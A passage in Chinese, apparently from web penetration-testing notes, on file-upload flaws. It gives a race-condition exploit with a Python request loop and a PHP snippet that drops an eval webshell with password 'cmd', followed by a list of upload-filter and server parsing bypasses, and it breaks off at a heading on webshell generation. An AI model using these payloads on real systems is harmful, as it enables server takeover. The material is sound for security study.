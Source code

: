 - 网站允许上传任意文件，然后检查上传文件是否包含Webshell，如果包含删除该文件。
- 网站允许上传任意文件，但是如果不是指定类型，那么使用unlink删除文件。在删除之前访问上传的php文件，从而执行上传文件中的php代码。

竞争条件漏洞存在于网站逻辑，如果先进行上传，后进行判断与删除，那么就可以利用时间差进行webshell上传。

#### 3. 漏洞利用

首先不断访问代码文件，然后上传，最终使用菜刀连接一句话webshell。

- python编写脚本，发送http请求（可多线程加速）
```python
import requests
while True:  
    requests.get("路径")
```

- 然后执行python脚本，接着才上传文件。上传文件代码如下
```php
<?php
    fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"])?>');
?>
```

- 菜刀连接访问shell.php，密码是cmd。



## 0x0c 文件上传思路

- 修改前端JS
- 修改MIME
- 爆破后缀名（黑名单）
- .htaccess（修改当前目录为php解析，前提是AllowOverride）+任意文件（一般用图片文件绕过）
- 大小写绕过
- 点号或空格绕过
- 文件名双写绕过
- 特殊符号::$DATA绕过
- 突破文件大小限制（先上传小Webshell，再上传大Webshell）
- 00截断绕过白名单
- 图片Webshell（结合文件包含）
- 竞争条件(用到php函数unlink时考虑，可以结合python多线程)
- IIS 5.x/6.0目录解析漏洞（/xx.asp/xx.jpg）
- IIS 6.0 文件名解析漏洞（xx.asp;.jpg）
- IIS 6.0 特殊文件后缀绕过（.asa、.cer、.cdx）
- IIS 6.0 PUT上传漏洞(-nikto -h IP地址)
- Apache解析漏洞(1.php.xxxx)
- IIS 7.0、7.5，Nginx < 8.03等与php低版本 畸形解析漏洞（xx.jpg/.php）
- Nginx < 8.03 空字节代码执行漏洞（00截断：xx.jpg%00.php）



## 0x0d 生成webshell

Kali下生成webshell

#### 1. WeBaCoo工具
